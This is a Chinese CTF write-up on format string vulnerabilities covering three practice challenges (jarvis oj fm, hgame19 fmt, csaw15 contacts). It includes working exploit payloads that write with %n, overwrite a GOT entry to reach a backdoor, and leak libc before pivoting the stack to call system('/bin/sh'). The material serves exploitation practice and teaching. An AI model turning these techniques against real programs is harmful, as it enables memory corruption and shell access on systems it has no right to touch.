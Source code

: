 ```yaml
---
title: 格式化字符串
date: 2020-07-12 21:50:26
permalink: /pages/cbf5e0/
categories: 
  - ctf_wp
  - 零散的题目
tags: 
  - 
---
```

# 格式化字符串

## jarvis oj fm 

先查看，没有啥保护， 然后代码就是检测x是否等于4, 则直接给shell，然后非常明显的格式化字符串漏洞，

![](https://i.loli.net/2020/07/12/s7kai4DyqTrpY2K.png)

然后看到这个x的位置， `.data:0804A02C` ，
![](https://i.loli.net/2020/07/12/cOdDsuzfjrUIW89.png)

于是利用格式化字符串漏洞改掉对应的值就好了，
使用 `%xx$n` ， 但是看到栈中并没有对应的指针，我们要自己输入进去这个指针， exp：

``` python
tar = 0x0804A02C
payload = flat(tar, '%11$n')
sl(payload)
```

过程中的栈空间：
![](https://i.loli.net/2020/07/12/ZAP9naExbrVovI4.png)

## hgame19 week2 fmt

首先是main函数的位置， 一个明显的格式化字符串漏洞，

![](https://i.loli.net/2020/07/20/B6SFQgD7hLRNlir.png)

然后看到函数内，有一个后门函数，

![](https://i.loli.net/2020/07/20/vaLVUWxh621jI89.png)

只有一次调用格式化字符串，就考虑直接修改值， 不能修改栈内的数据(因为需要先获取地址)， 首先想到`.fini_array`段， 但是没有写入权限，于是考虑写入到got表中，被直接调用的函数就一个`___stack_chk_fail`， 于是修改它的got表为后门函数。

调试的位置，

![](https://i.loli.net/2020/07/20/VO1uiXlFE72Jp6e.png)

运行printf后的对应got表：

![](https://i.loli.net/2020/07/20/DbN5RfuTEekSjoP.png)

控制触发栈溢出，然后调用canary检测报错的时候就会调用后门函数，

```python
payload =  b'%2126x%8$hn'.ljust(16, b'a')
payload += p64(0x0000000000601020)
payload = payload.ljust(0x60, b'b')
sl(payload)
```



## csaw15 contacts

首先是一个菜单，然后输入数据啥的， 

然后在打印的最后会出现一个格式化字符串漏洞，主要使用的也就是增加和打印两个位置，

为了利用更顺利，增加对应函数只有触发格式化字符串的位置设置，其他位置默认填充，设置出来函数：

```python
def add(desc):
    sla('>>> ', '1')
    sla('Name: ', 'aa')
    sla('No: ', '/bin/sh\x00')
    sla('description:', str(len(desc)))
    sla('description:', desc)

def show():
    sla('>>> ', '4')

```

思路是首先泄漏libc基地址，获取system地址，

复现的wiki的解法，栈迁移，主要修改ebp指针，然后将栈转移到堆里面，在堆里预设好system + 'b' * 4 + P_binsh的结构，直接会调用过去，

![](https://i.loli.net/2020/07/20/6h5bkTu8NqrxWVC.png)

大体代码如下：

```python
# --- leak system
add('asdf%2$pasdf%1$p')
show()
ru('asdf')
put_addr = int(re(10, 4), 16) - 11
ru('asdf')
binsh = int(re(9, 4), 16) 
print('bin sh ', hex(binsh))
print('put addr', hex(put_addr))
libc_base = put_addr - 	0x067b40
print('libc base', hex(libc_base))
system = libc_base + 0x03d200
print('system ', hex(system))

# --- system(binsh)
payload = flat('as%p', system, 'a' * 4, binsh)
add(payload)
show()
ru('asdf')
ru('asdf')
ru('as')
target = int(re(9, 9), 16) + 0x10 
print('target ', hex(target))

# --- ebp => stack to heap

payload = '%{}x%6$n'.format(target)
add(payload)

show()
```

到这里应该修改了ebp直接退出main函数即可